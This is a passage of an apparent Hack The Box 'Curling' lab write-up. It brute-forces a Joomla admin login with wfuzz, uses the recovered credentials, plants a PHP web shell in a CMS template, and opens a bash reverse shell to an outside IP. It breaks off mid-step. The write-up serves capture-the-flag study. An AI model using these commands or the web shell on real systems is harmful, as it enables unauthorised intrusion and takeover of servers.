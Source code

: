 Note: If you're going to proxy wfuzz through burp, make sure the ip and port match the options!

Proxy => Options => Proxy Listeners => 127.0.0.1:8080

	wfuzz -w cewl.out -c -d 'username=FUZZ&passwd=Curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&0a3ab5ecdcbc47a15beabc106e671004=1' -b '99fb082d992a92668ce87e5540bd20fa=96vrskpirtingik35nav7gh66m' -p 127.0.0.1:8080 http://10.129.171.59/administrator/index.php

`000000187:   303        0 L      0 W        0 Ch        "Floris"`

### Login with credentials

```
http://10.129.171.59/administrator/index.php
Floris
Curling2018!
```

## Foothold

### Edit CMS template PHP to get RCE

1. Extensions => Templates => Templates => Protostar Details and Files
2. Edit /index.php

#### Create a superglobal variable which accepts arbitrary input

- PHP system() is just like the C version of the function in that it executes the given command and outputs the result.

- PHP $_REQUEST is a super global variable which is used to collect data after submitting an HTML form.

#### Add to existing PHP file

	system($_REQUEST['pwn']);

#### Add to empty PHP file

	<?php system($_REQUEST['pwn']); ?>
	
### RCE

	http://10.129.171.59/templates/protostar/htb.php?pwn=id		// uid=33(www-data) gid=33(www-data) groups=33(www-data) 

### Create  reverse shell script

Spawn an interactive bash shell, redirecting standard output to a tcp socket and standard input to standard output. [^3]

	bash -i >& /dev/tcp/10.10.17.201/9001 0>&1

Try this if it doesn't work:


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency